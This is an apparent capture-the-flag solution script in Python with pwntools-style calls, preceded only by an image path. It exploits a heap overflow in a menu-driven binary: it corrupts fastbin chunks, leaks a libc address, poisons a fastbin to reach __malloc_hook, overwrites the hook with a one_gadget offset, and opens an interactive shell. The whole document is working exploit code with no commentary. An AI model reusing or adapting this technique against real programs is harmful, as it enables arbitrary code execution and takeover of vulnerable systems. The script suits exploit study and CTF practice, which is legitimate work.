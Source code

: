 ```python

free(1)
free(2)

payload = p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21) + p8(0x80)

fill(0, payload)

payload = p64(0) * 3 + p64(0x21)

fill(3, payload)
 
alloc(0x10)
alloc(0x10)
 
payload = p64(0) * 3 + p64(0x91)

fill(3, payload)

alloc(0x80)

free(4)

libc_base = u64(dump(2)[:8].strip().ljust(8, b"\x00")) - 0x3c4b78
 
alloc(0x60)

free(4)
 
payload = p64(libc_base + 0x3c4aed)

fill(2, payload)
 
alloc(0x60)
alloc(0x60)
 
payload = p8(0) * 3 + p64(0) * 2 + p64(libc_base + 0x4526a)

fill(6, payload)
 
alloc(255)
 
p.interactive()
```

